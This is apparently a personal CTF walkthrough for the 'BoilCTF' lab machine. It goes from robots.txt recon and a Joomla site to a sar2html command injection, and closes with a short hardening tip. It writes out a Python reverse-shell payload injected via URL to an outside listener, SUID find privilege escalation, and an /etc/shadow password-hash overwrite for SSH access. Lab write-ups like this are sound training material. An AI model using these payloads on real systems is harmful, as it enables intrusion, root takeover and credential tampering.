 # BoilCTF
IP: 10.10.8.187
<br>
First of all went to the ip in the browser and found apache2 server running. Then I went to robot.txt and found some interesting stuff there:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Interesting pages on joomla/:
- _test
- administrator
- build
- tests

```
MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

I even tried to use Joomla scaner, but didn't find anything useful.
```
Joomla version is: 3.9.12

> Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion 
> Joomla! 3.9.0 < 3.9.7 - CSV Injection
```

Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
tests/codeception/\_support/Shared/UserCredentials.php
```
http://boilctf.thm/joomla/media/editors/

codemirror/
none/
tinymce/
```

After some time, I realized that I need another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there. 
![sar2html](./imgs/sar2html.png)
Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
This is a good url which supposed to give us something whatever.<br>
http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
But if we change it to:
http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
we get some additional result there, which is a response to our command:
![whoami](./imgs/whoami)

I set up an _nc_ listener on port *2222* and used a simple python reverse-shell which I found on the internet. Therefore, eventually my url looked like this:<br>
```
http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

And at this point we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
![log.txt](./imgs/log.txt.png)
So we got usernames and password there.
username: _basterd_<br>
username: _pentest_<br>
password: _superduperp@$$_<br>
**But that actually doesn't matter :)**<br>

I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
```
find / -perm -u=s -type f 2>/dev/null
```
There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command: 
```
find . -exec /bin/sh -p \; -quit
```
So I excuted it and got root.

Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
ssh was not on port 22 it. Reading ssh config file (/etc/ssh/sshd_conf) found that it was running on port 55007.

Also I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
```
openssl passwd -6 -salt xyz yourpass
$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
sed -i 's/^basterd:[^:]\*:/basterd:$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.:/' /etc/shadow
```
And that let me connect via _ssh_.<br>
### A little bit of hardening
To prevent privilege escalation with the _find_ command need to do this:<br>
`chmod u-s /usr/bin/find`